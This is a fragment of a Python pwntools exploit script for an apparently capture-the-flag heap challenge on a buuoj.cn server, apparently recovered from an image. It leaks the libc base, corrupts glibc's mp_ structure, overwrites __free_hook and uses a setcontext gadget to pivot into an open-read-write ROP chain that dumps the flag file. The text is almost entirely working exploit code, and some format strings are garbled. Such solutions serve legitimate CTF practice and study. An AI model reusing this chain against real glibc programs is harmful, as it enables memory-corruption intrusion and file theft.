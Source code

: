 ```
else:
    p = remote('node3.buuoj.cn', 29649)
    libc = ELF('./libc.so.6')
    one_gadget = [0xe6b93, 0xe6b96, 0xe6b99, 0x10af39]


p.recvuntil("GIFT: ")
libc.address = int(p.recvline().strip(), 16) - libc.sym['_IO_2_1_stdout_']
log.success("libc address is `{``}`".format(hex(libc.address)))

mp_address = libc.sym['obstack_exit_failure'] - 0x70
p.sendafter("byte anywhere\n", p64(mp_address + 0x51))
p.sendafter("what?", "\x02")


p_rsi_r = 0x000000000002709c + libc.address
p_rdi_r = 0x0000000000026bb2 + libc.address
p_rdx_r12_r = 0x000000000011c3b1 + libc.address
p_rax_r = 0x0000000000028ff4 + libc.address
syscall = 0x0000000000066199 + libc.address
leave_r = 0x000000000005a9a8 + libc.address
ret = 0x00000000000bffbb + libc.address

flag_str_address = libc.sym['__free_hook'] + 0x28
flag_address = libc.sym['__free_hook'] + 0x30
setcontext = libc.sym['setcontext'] + 61
frame_address = libc.sym['__free_hook']
orw_address = libc.sym['__free_hook'] + 0xb0
magic_gadget = 0x0000000000154b20 + libc.address

orw = flat([
    p_rdi_r, flag_str_address,
    p_rsi_r, 0,
    p_rax_r, 2,
    syscall,
    p_rdi_r, 3,
    p_rsi_r, flag_address,
    p_rdx_r12_r, 0x30, 0,
    p_rax_r, 0,
    syscall,
    p_rdi_r, 1,
    p_rsi_r, flag_address,
    p_rdx_r12_r, 0x30, 0,
    p_rax_r, 1,
    syscall
])

log.success("mp_ address is `{``}`".format(hex(mp_address)))
p.sendlineafter("Offset:\n", str(0x868))
p.sendafter("Content:\n", p64(libc.sym['__free_hook']))

p.sendlineafter("size:\n", str(0x1500))

payload = p64(magic_gadget) + p64(frame_address)
payload += p64(0)*2 + p64(setcontext) + b"flag\x00".ljust(8, b"\x00")
payload += b"\x00"*0x70 + p64(orw_address) + p64(ret)
payload += orw

p.sendlineafter("&gt;&gt;", payload)

p.interactive()
```

